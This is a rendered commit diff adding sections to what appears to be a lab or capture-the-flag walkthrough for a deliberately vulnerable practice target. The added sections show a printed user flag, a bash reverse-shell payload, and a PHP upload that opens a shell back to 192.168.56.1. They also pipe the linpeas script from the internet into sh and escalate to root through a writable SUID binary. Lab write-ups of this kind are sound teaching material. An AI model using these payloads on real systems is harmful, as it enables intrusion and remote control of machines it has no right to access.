

Before and after one commit to bayufedra/MBPTL, a Markdown page: writeup/README.md, the part around the change printed below. Shown: that part at 81% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/writeup/README.md
+++ b/writeup/README.md
@@ -224,6 +224,70 @@ drwxrwxr-x 1 root     root     4.0K Feb 27 14:40 ..
 -rwxrwxrwx 1 www-data www-data    0 Feb 27 14:40 index.php
 ```
 
+### Read User Flag
+The flag is located in `/flag` and we can see the file by using command `ls -lah /flag` and we will get response
+```
+total 20K
+drwxr-xr-x 1 root root 4.0K Feb 27 14:44 .
+drwxr-xr-x 1 root root 4.0K Feb 27 14:46 ..
+---------- 1 root root   40 Feb 27 14:40 root.txt
+-rw-rw-r-- 1 root root   40 Feb 27 14:40 user.txt
+```
+read user.txt with `cat /flag/user.txt`
+
+#### FLAG USER: USER{32250170a0dca92d53ec9624f336ca24}
+
+We will not able to read root flag since it has permission
+```
+---------- 1 root root   40 Feb 27 14:40 root.txt
+```
+
 # Post-Exploitation
 ### Reverse Shell
+A reverse shell is a shell that is running on one computer but accepts requests and relays the responses to another computer. So it acts on behalf of another computer remotely. There are various tools for conduct reverse shell, but the most commonly used currently is `nc`.
+
+#### Install Netcat
+```
+sudo apt install nc -y
+```
+
+#### Basic usage of netcat
+We will use flags `-l` and `-p` to do listening port
+```
+nc -lp 1337
+```
+
+#### Payload for reverse shell in Bash
+```
+bash -i >& /dev/tcp/<YOUR IP>/<YOUR LISTEN PORT> 0>&1
+```
+
+Write malicious PHP file just like before but this time we will add the payload in it.
+
+```
+<?php system('bash -c "bash -i >& /dev/tcp/192.168.56.1/1337 0>&1"'); ?>
+```
+
+Upload and open the file and we will got reverse connection
+```
+❯ nc -lp 1337
+bash: cannot set terminal process group (1): Inappropriate ioctl for device
+bash: no job control in this shell
+www-data@63f5b77af313:/var/www/html/administrator/uploads$
+```
+
 ### Privilege Escalation
+#### Reccon using Linpeas
+LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz
+- Source: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
+
+We will running this tool by this command
+```
+curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
+```
+
+We got interesting result in `SUID - Check easy privesc, exploits and write perms` with `You can write SUID file: /bin/bahs`
+
+#### Spawn ROOT
+Based on the information, we can spawn `/bin/bash` by it's owner `UID` which is `root`. and all we need to do is type `bahs` to become `root`.
+
````
Also changed, not shown: other parts of writeup/README.md (+8 -0 lines).
